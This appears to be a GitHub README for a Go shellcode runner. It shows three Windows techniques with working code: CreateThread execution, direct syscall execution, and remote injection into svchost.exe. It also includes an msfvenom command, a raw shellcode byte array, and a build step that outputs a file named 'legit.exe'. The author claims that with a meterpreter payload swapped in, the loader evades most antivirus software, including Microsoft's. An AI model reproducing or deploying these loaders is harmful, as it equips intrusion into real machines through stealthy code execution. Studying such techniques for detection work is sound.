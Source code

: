 ### 1 - Introduction 

I won't remind you how the functions work because they basically do the same thing as if the program had been written in C. On the other hand I will briefly remind you how these techniques work.

### Method 1 : CreateThread

for this method, we load the functions from **kernel32**, set a VirtualAlloc for our shellcode and copy the shellcode to memory using `RtlMoveMemory`. Then we create our thread using `CreateThread` and set the wait status on this thread


this shellcode will simply run the calculator for learning purposes. We generate it using *msfvenom**.
```powershell
msfvenom -p windows/x64/exec CMD=calc.exe -f raw
```
```go
var buf = []byte{0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00}
```

**Compilation:**
```go
go build -buildmode=c-shared -o legit.exe runnner.go
```

![image](https://user-images.githubusercontent.com/75935486/154823436-3aaa8ddb-ea39-41e9-a584-60bfd00e5760.png)

**Code:**
```go
func CreateThread(sc []byte) {
	kernel32 := windows.NewLazyDLL("kernel32.dll")
	RtlMoveMemory := kernel32.NewProc("RtlMoveMemory")
	CreateThread := kernel32.NewProc("CreateThread")
	addr, err := windows.VirtualAlloc(uintptr(0), uintptr(len(sc)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		fmt.Printf("[!] VirutalAlloc : %s", err.Error())
	}
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), (uintptr)(len(sc)))
	var oldProtect uint32
	err = windows.VirtualProtect(addr, uintptr(len(sc)), windows.PAGE_EXECUTE_READ, &oldProtect)
	if err != nil {
		panic(fmt.Sprintf("[!] VirtualProtect : %s", err.Error()))
	}
	thread, _, err := CreateThread.Call(0, 0, addr, uintptr(0), 0, 0)
	if err.Error() != "The operation completed successfully." {
		panic(fmt.Sprintf("[!] CreateThread : %s", err.Error()))
	}
	_, _ = windows.WaitForSingleObject(windows.Handle(thread), 0xFFFFFFFF)
}
```

![image](https://user-images.githubusercontent.com/75935486/155046052-b17eb1a2-130a-4c01-b430-bfec51f8a378.png)

I replaced the shellcode of this course by a shellcode that opens a meterpreter session and the program is still undetectable by most antivirus software including **Microsoft**

### Method 2 : Syscall

```go
func SysCall(sc []byte) {
	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
	RtlMoveMemory := kernel32.NewProc("RtlMoveMemory")
	addr, err := windows.VirtualAlloc(uintptr(0), uintptr(len(sc)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		fmt.Printf("[!] VirutalAlloc : %s", err.Error())
	}
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), (uintptr)(len(sc)))
	var oldProtect uint32
	err = windows.VirtualProtect(addr, uintptr(len(sc)), windows.PAGE_EXECUTE_READ, &oldProtect)
	if err != nil {
		panic(fmt.Sprintf("[!] VirtualProtect : %s", err.Error()))
	}
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```
for this technique we set `VirtualAlloc` for the shellcode in **`addr` variable** and we use the syscall library from golang to initalize the syscall on the address of `addr`

![image](https://user-images.githubusercontent.com/75935486/154824956-ec67dd43-1bf4-4ce9-b529-6bb65721e18e.png)

### Method 3 : InjectProcess

for this 3rd and last method we will simply inject our shellcoded into a process which will be defined by our `FindProcess` function.
```go
pid := FindProcess("svchost.exe")
```

we load the functions from **kernel32**:
```go
kernel32 := windows.NewLazySystemDLL("kernel32.dll")
VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
VirtualProtectEx := kernel32.NewProc("VirtualProtectEx")
WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
CreateRemoteThreadEx := kernel32.NewProc("CreateRemoteThreadEx")
```

Finally, we will use the functions loaded from **kernel32** to make the injection techniques work.
```go
proc, errOpenProcess := windows.OpenProcess(windows.PROCESS_CREATE_THREAD|windows.PROCESS_VM_OPERATION|windows.PROCESS_VM_WRITE|windows.PROCESS_VM_READ|windows.PROCESS_QUERY_INFORMATION, false, uint32(pid))

addr, _, errVirtualAlloc := VirtualAllocEx.Call(uintptr(proc), nil, uintptr(len(sc)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
_, _, errWriteProcessMemory := WriteProcessMemory.Call(uintptr(proc), addr, (uintptr)(unsafe.Pointer(&sc[0])), uintptr(len(sc)))
op := 0
_, _, errVirtualProtectEx := VirtualProtectEx.Call(uintptr(proc), addr, uintptr(len(sc)), windows.PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&op)))
_, _, errCreateRemoteThreadEx := CreateRemoteThreadEx.Call(uintptr(proc), 0, 0, addr, 0, 0, 0)
errCloseHandle := windows.CloseHandle(proc)
```
